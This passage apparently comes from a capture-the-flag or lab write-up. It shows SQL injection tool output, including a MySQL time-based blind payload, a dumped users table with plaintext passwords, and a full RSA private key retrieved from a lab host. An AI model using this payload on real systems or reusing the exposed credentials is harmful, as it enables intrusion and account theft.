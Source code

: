 >   
>       Type: time-based blind
>       Title: MySQL >= 5.0.12 time-based blind (IF - comment)
>       Payload: name=a'XOR(if(now()=sysdate(),SLEEP(8),0))XOR'Z&pass=a
>   ---
>   [15:34:53] [INFO] testing MySQL
>   [15:34:53] [INFO] confirming MySQL
>   [15:34:53] [INFO] the back-end DBMS is MySQL
>   
>   ❯ ghauri -r req --dump
>   ...
>   Database: dev
>   Table: users
>   [2 entries]
>   +--------------+----------------------+
>   | name         | pass                 |
>   +--------------+----------------------+
>   | admin        | sup3rstr0ngp4ssf0r4d |
>   | thrasivoulos | sup3rstr0ngp4ssf0r4d |
>   +--------------+----------------------+
>   ...
>   ```

Clicking on “My Key” reveals the following SSH key in `http://10.10.10.20/dev/sshkeyforadministratordifficulttimes`.

```bash
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAvQxBD5yRBGemrZI9F0O13j15wy9Ou8Z5Um2bC0lMdV9ckyU5
Lc4V+rY81lS4cWUx/EsnPrUyECJTtVXG1vayffJISugpon49LLqABZbyQzc4GgBr
3mi0MyfiGRh/Xr4L0+SwYdylkuX72E7rLkkigSt4s/zXp5dJmL2RBZDJf1Qh6Ugb
yDxG2ER49/wbdet8BKZ9EG7krGHgta4mfqrBbZiSBG1ST61VFC+G6v6GJQjC02cn
cb+zfPcTvcP0t63kdEreQbdASYK6/e7Iih/5eBy3i8YoNJd6Wr8/qVtmB+FuxcFj
oOqS9z0+G2keBfFlQzHttLr3mh70tgSA0fMKMwIDAQABAoIBAA23XOUYFAGAz7wa
Nyp/9CsaxMHfpdPD87uCTlSETfLaJ2pZsgtbv4aAQGvAm91GXVkTztYi6W34P6CR
h6rDHXI76PjeXV73z9J1+aHuMMelswFX9Huflyt7AlGV0G/8U/lcx1tiWfUNkLdC
CphCICnFEK3mc3Mqa+GUJ3iC58vAHAVUPIX/cUcblPDdOmxvazpnP4PW1rEpW8cT
OtsoA6quuPRn9O4vxDlaCdMYXfycNg6Uso0stD55tVTHcOz5MXIHh2rRKpl4817a
I0wXr9nY7hr+ZzrN0xy5beZRqEIdaDnQG6qBJFeAOi2d7RSnSU6qH08wOPQnsmcB
JkQxeUkCgYEA3RBR/0MJErfUb0+vJgBCwhfjd0x094mfmovecplIUoiP9Aqh77iz
5Kn4ABSCsfmiYf6kN8hhOzPAieARf5wbYhdjC0cxph7nI8P3Y6P9SrY3iFzQcpHY
ChzLrzkvV4wO+THz+QVLgmX3Yp1lmBYOSFwIirt/MmoSaASbqpwhPSUCgYEA2uym
+jZ9l84gdmLk7Z4LznJcvA54GBk6ESnPmUd8BArcYbla5jdSCNL4vfX3+ZaUsmgu
7Z9lLVVv1SjCdpfFM79SqyxzwmclXuwknC2iHtHKDW5aiUMTG3io23K58VDS0VwC
GR4wYcZF0iH/t4tn02qqOPaRGJAB3BD/B8bRxncCgYBI7hpvITl8EGOoOVyqJ8ne
aK0lbXblN2UNQnmnywP+HomHVH6qLIBEvwJPXHTlrFqzA6Q/tv7E3kT195MuS10J
VnfZf6pUiLtupDcYi0CEBmt5tE0cjxr78xYLf80rj8xcz+sSS3nm0ib0RMMAkr4x
hxNWWZcUFcRuxp5ogcvBdQKBgQDB/AYtGhGJbO1Y2WJOpseBY9aGEDAb8maAhNLd
1/iswE7tDMfdzFEVXpNoB0Z2UxZpS2WhyqZlWBoi/93oJa1on/QJlvbv4GO9y3LZ
LJpFwtDNu+XfUJ7irbS51tuqV1qmhmeZiCWIzZ5ahyPGqHEUZaR1mw2QfTIYpLrG
UkbZGwKBgGMjAQBfLX0tpRCPyDNaLebFEmw4yIhB78ElGv6U1oY5qRE04kjHm1k/
Hu+up36u92YlaT7Yk+fsk/k+IvCPum99pF3QR5SGIkZGIxczy7luxyxqDy3UfG31
rOgybvKIVYntsE6raXfnYsEcvfbaE0BsREpcOGYpsE+i7xCRqdLb
-----END RSA PRIVATE KEY-----
```
